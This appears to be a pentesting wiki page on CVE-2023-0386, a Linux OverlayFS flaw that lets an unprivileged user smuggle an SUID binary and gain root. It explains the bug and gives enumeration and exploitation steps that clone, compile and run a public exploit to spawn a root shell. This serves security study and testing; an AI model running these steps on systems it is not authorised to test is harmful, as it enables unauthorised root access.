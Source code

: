 ```yaml
---
description: CVE-2023-0386
---
```


# CVE-2023-0386 (OverlayFS)

## Theory

The overlay file system (often abbreviated as OverlayFS) allows a user to "merge" several mount points into a unified file system.

CVE-2023-0386 lies in the fact that when the kernel copied a file from the overlay file system to the "upper" directory, it did not check if the user/group owning this file was mapped in the current [user namespace](https://securitylabs.datadoghq.com/articles/container-security-fundamentals-part-2/#user-namespace). This allows an unprivileged user to smuggle an SUID binary from a "lower" directory to the "upper" directory, by using OverlayFS as an intermediary.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
The target system is likely to be vulnerable if it has a kernel version lower than 6.2.

```bash
#Get Kernel version
$ uname -r
5.15.70-051570-generic
```
{% endtab %}

{% tab title="Exploit" %}
Using [this exploit](https://github.com/sxlmnwb/CVE-2023-0386) from sxlmnwb, we can abuse CVE-2023-0386

```bash
#Compile
git clone https://github.com/sxlmnwb/CVE-2023-0386 && cd CVE-2023-0386
make all
```

Start two terminals on the target, in the first one type

```
./fuse ./ovlcap/lower ./gc
```

In the second terminal type. It will spawn a root shell.

```
./exp
```

{% hint style="info" %}
If the target doesn't have gcc installed, you may need to recreate a similar virtual environement to compile the exploit.
{% endhint %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/" %}
